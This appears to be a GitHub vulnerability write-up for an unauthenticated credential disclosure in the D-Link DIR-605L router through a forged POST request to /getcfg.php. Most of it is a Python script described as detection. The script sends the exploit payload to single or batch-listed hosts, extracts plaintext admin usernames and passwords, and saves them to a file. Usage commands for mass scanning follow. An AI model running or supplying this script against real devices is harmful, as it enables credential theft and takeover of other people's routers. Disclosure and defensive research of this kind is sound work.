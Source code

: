 # D-LINK-DIR-605L 

## Sensitive information disclosure vulnerability in D-Link dir-605 Hardware Version : B2 Firmware Version : 2.01MT

Sensitive information disclosure vulnerability exists in D-Link dir-605 Hardware Version : B2 Firmware Version : 2.01MT. An attacker can obtain a user name and password by forging a post request to the / getcfg.php page


## harm

An attacker can access this page without authorization, obtain the user name and password in plaintext, and obtain background management privileges after logging in to the background


## Test method
1. Visit the d-link-dir-605L background login page



2. Enter any password, then grab the packet and modify the packet content as follows

![image](https://user-images.githubusercontent.com/90023952/131959930-bdc051b1-e234-4803-972d-adf58ddeb554.png)

![image](https://user-images.githubusercontent.com/90023952/131959858-ace71dc7-41c0-4f25-852d-ecc01f2016fd.png)

3.Use the obtained user name and password to successfully log in to the background



## Script automation detection

```
import requests
import argparse
import re
import urllib3
urllib3.disable_warnings()
parser = argparse.ArgumentParser(description='api help')
parser.add_argument('-u','--url', help='Please Input a url!',default='')
parser.add_argument('-r','--read', help='Please Input a file!',default='')
args=parser.parse_args()
url=args.url
file=args.read

if url !="":
    url=url+"/getcfg.php"
    header={
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
    "Content-Type":"application/x-www-form-urlencoded",
    "Cookie":"",
    "X-Forwarded-For":"127.0.0.1"
            }
    data = ("SERVICES=DEVICE.ACCOUNT&AUTHORIZED_GROUP=1%0a")
    response=requests.post(url,data=data,headers=header,verify=False,timeout=10)
    print(response.text)
    if  "DEVICE.ACCOUNT" in response.text and response.status_code == 200:
        print("[" + url + "]" + "[===dangerous===]")
    else:
        print("["+url+"]"+"[safe]")

if file !="":
    txt=file
    f=open(txt,'r+')
    for i in f.readlines():
        url=i.strip()
        url=url+"/getcfg.php"
        header={
        "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36",
        "Content-Type":"application/x-www-form-urlencoded",
        "Cookie":"",
        "X-Forwarded-For": "127.0.0.1"
        }
        data = ("SERVICES=DEVICE.ACCOUNT&AUTHORIZED_GROUP=1%0a")
        try:
            response=requests.post(url,data=data,headers=header,verify=False,timeout=10)
            if "DEVICE.ACCOUNT" in response.text and response.status_code == 200:
                name = re.findall('<name>.*', response.text)
                password = re.findall('<password>.*', response.text)
                print("[" + url + "]" + "[===dangerous===]")
                w = open("DIR-615-Vulnerability-file.txt", "a")
                w.write(url + '\r\n' + repr(name) + repr(password) + '\r\n')
            else:
                print("[" + url + "]" + "[safe]")
        except Exception as e:
            print("["+url+"]"+"[safe]",format(e))


```
1. Detect a single URL

python D-LINK-DIR-605.py -u http://xxx.xxx.xxx.xxx

![image](https://user-images.githubusercontent.com/90023952/131964546-cfb63863-5e3e-46a0-a237-94076f6a47d2.png)

2. Batch inspection

python D-LINK-DIR-605.py -r file.txt



After the batch detection script is executed, a file named "dir-605-vulnerability-file. TXT" will be generated in the current folder, with the contents of vulnerability URL and explored user name and password






